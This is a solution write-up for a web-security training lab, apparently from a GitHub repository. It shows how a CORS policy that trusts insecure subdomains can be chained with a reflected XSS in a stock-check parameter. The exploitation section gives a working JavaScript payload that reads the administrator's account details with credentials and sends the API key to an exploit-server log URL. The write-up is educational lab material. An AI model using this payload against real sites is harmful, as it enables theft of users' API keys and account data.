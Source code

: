 # CORS vulnerability with trusted insecure protocols
# Objective
This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
The `GET` request to `/accountDetails` retrieves: username, email, API key and active user sessions. Moreover request to `stock.labdomain.net` over `HTTP` retrieves information about stock

|![](Images/image-9.png)|
|:--:| 
| *Normal request and response* |
|![](Images/image-12.png)|
| *Check stock funcionality* |
|![](Images/image-13.png)|
| *Check stock request and response* |

After adding `Origin: demooring.labdomain.net` header to the request, the application reflects the origin in `Access-Control-Allow-Origin` header. Header `Access-Control-Allow-Credentials: true` is also present in response from server.
|![](Images/image-10.png)|
|:--:| 
| *Reflected origin in response* |
|![](Images/image-11.png)|
| *Reflected origin in response* |

## Exploitation
### XSS
In checking the stock functionality, in `productId` field, there is a Reflected XSS vulnerability.

|![](Images/image-14.png)|
|:--:| 
| *XSS vulnerability in productId field* |

### CORS exploitation
In order to retrieve victim API key attacker:
1. Hosts malicious script on his website.
2. Whoever visits the website executes first javascript payload.
3. First javasrcript payload forces victim's browser to make reqest to vulnerable to XSS endpoint, injecting victim with second javascript payload.
4. Second javascript payload abuse CORS to retrieve victim API key and sends it to attacker server. Attacker can retrive victim's API key because ACAO is set to trust all subdomains (including the vulnerable one) and allows to pass credentials.

Final ayload:
```js
<script>
    document.location="http://stock.0a8b000703e6100980ed2149007a0040.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a8b000703e6100980ed2149007a0040.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a7200ae03511047809320cb016b0005.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

Nicely formatted XSS payload from above:
```js
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('GET', 'https://...web-security-academy.net/accountDetails', true);
req.withCredentials = true;
req.send();

function reqListener() {
  location = 'https://exploit-...net/log?key=' + this.responseText;
};
```
|![](Images/image-16.png)|
|:--:| 
| *Log with administrator API key* |
|![](Images/image-15.png)|
| *URL decoded data* |



